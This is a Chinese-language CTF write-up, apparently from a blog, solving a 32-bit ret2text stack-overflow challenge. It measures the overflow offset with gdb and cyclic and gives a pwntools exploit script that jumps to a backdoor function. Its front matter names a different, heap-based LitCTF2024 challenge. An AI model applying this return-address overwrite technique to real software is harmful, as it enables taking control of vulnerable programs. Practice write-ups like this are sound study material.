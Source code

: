 ```yaml
---
title: '[LitCTF2024]heap-2.23'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```


![image-20240108202313442](assets/img/old_imags/image-20240108202313442.png)

![image-20240108202321247](image-20240108202321247.png)

- 缓存区长度调试
- `32`位下的`ret2text`
- `cyclic`的使用

1. `main`函数中存在溢出
2. 存在后门函数
3. 构造`payload`,`ret2text`就可以得到`flag`

难点在于我们很难通过ida得到我们要溢出的长度,需要手动计算,接下来是两种方法

- A,通过`gdb`得到溢出长度

  ![image-20240108202713661](/image-20240108202713661.png)

  ![image-20240108202748090](/image-20240108202748090.png)

  停在输入地址,输入,手动查看`ebp`下的返回地址,减去输入位置得到长度

- B.通过`cyclic`生成字符串,根据返回报错得到长度

  ```shell
  bamuwe@qianenzhao:~$ cyclic 30
  aaaabaaacaaadaaaeaaafaaagaaaha
  ```

  ![image-20240108202957597](image-20240108202957597.png)

  `gdb`调试输入后得到了这样一个报错

  ```shell
  bamuwe@qianenzhao:~$ cyclic -l 0x61616167
  24
  ```

  `-l`查询,得到栈溢出距离(`$esp~$ebp`)是$24$(0x18)

```python
from pwn import *
io = process('./bbys_tu_2016')
padding = b'A'*0x18
payload = padding + p32(0x0804856D)
io.sendlineafter(b'This program is hungry. You should feed it.\n',payload)
io.interactive()
```

> 远程与本地有不同,直接`io.sendline(payload)`即可

